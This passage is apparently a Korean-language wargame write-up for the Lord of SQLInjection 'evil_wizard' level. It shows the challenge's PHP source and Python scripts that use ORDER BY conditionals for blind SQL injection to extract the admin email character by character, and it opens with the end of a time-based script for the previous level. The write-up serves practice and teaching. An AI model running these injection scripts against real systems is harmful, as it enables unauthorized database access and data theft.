 ```python
    start = time.time()
    res = requests.get(url=url, params=param, cookies=cookie)
    end = time.time()
    if end - start > 0.5:
      email += chr(char)
      print(email)
      break
        
print(email.lower())
```
<br>

## Evil_wizard
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|proc|union|sleep|benchmark/i', $_GET[order])) exit("No Hack ~_~");
  $query = "select id,email,score from prob_evil_wizard where 1 order by {$_GET[order]}"; // same with hell_fire? really?
  echo "<table border=1><tr><th>id</th><th>email</th><th>score</th>";
  $rows = mysqli_query($db,$query);
  while(($result = mysqli_fetch_array($rows))){
    if($result['id'] == "admin") $result['email'] = "**************";
    echo "<tr><td>{$result[id]}</td><td>{$result[email]}</td><td>{$result[score]}</td></tr>";
  }
  echo "</table><hr>query : <strong>{$query}</strong><hr>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```
### exploit
Hell_fire와 같지만 필터링 항목이 늘어났다.
**sleep과 benchmark**가 필터링되었기 때문에 다른 방법을 찾아야한다.
php 코드에 **"// same with hell_fire? really?"** 라는 힌트가 있다.
나는 이 부분이 TimeBased를 사용하지 말라는 의미로 받아들였다.

어떻게 문제를 해결할까 고민하다가, 조건이 참인 값을 넣으면 admin 컬럼이 먼저 출력되는 것을 발견했다.
이를 이용해 문제를 해결했다.
```python
import requests

url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for len in range(100):
  param = {'order': f"if(id='admin' and length(email)={len},1,10)#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if 'score</th><tr><td>admin' in res.text:
    print(len)
    break

length = 30
email = ""
for len in range(1, length+1):
  for char in range(ord('0'), ord('z')):
    param = {'order': f"if(id='admin' and ord(substr(email,{str(len)},1))={str(char)}, 1, 10)#"}
```